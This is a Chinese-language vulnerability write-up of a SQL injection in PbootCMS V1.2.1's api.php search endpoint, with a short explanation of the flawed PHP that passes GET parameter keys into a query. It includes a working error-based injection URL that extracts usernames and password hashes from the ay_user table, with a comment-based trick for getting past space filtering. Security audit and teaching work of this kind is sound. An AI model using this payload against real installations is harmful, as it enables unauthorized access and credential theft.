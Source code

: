 ![image](img/272568b10402aebb12906489d965b156.png)

## 0x10.1 接口注入一

### 0x10.1.1 漏洞演示

```
url:http://127.0.0.1/cms/PbootCMS-V1.2.1/api.php/cms/search?1%3D1)and(updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1))--=1
post：
    11=11 
```

一定要post 要跑空post才能进流程

因为系统中会把 “空格”转为“_” 所以使用/**/绕过即可

### 0x10.1.2 漏洞讲解

路径：apps\api\controller\CmsController.php
方法：search(
这里我把漏洞触发点发出来我们主要讲讲他即可

```
// 数据接收
foreach ($_GET as $key => $value) {
  if (! ! $value = get($key, 'vars')) {
    $where[$key] = $value;
  }
}
$data = $this->model->getList($acode, $scode, $num, $order, $where, $fuzzy); 
```
